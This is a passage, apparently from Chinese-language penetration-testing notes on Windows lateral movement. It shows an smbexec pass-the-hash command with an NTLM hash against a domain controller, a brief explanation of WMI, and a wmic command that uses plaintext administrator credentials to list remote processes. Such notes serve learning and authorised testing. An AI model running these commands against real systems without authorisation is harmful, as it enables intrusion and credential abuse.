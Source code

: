 ### smbexec

```
smbexec.exe  -hashes :520126a03f5d5a8d836f1c4f34ede7ce ghost/dc@192.168.188.100
```

![image-20220319160656572](README/image-20220319160656572.png)



### WMI

>   WMI以CIMOM为基础，CIMOM即[公共信息模型](https://baike.baidu.com/item/公共信息模型/2719581)[对象管理器](https://baike.baidu.com/item/对象管理器/21508570)（Common Information Model Object Manager），是一个描述操作系统构成单元的对象数据库，为MMC和[脚本程序](https://baike.baidu.com/item/脚本程序/1265903)提供了一个访问操作系统构成单元的公共接口。

#### 查询进程信息

```javascript
wmic /node:192.168.188.100 /user:administrator /password:Admin123! process list brief
```
